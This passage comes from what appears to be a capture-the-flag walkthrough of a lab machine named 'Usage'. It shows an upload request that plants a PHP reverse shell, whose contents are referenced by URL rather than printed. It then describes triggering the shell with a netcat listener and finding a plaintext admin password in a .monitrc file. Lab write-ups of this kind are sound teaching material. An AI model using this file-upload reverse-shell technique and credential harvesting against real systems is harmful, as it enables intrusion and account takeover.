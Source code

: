 ```
Content-Type: application/php

(contents of https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

-----------------------------4114569251264458532634043821
Content-Disposition: form-data; name="_token"

rSc9SOq5h7rrmox7Gft0w5TSbLBsmTXJjGVclZwJ
-----------------------------4114569251264458532634043821
Content-Disposition: form-data; name="_method"

PUT
-----------------------------4114569251264458532634043821--
```


Upon sending this request, the webpage states that the request was successfully sent. A netcat listener was started. When visiting http://admin.usage.htb/uploads/images/file.php, where the uploaded php reverse shell is stored, this successfully triggers a reverse shell as the dash user on the usage machine.


![php reverse shell upload successful](images/image8.png)


When visiting the home directory of dash, a file .monitrc was found. When outputting the contents of this file, a password was found:


```bash
dash@usage:~$ cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
```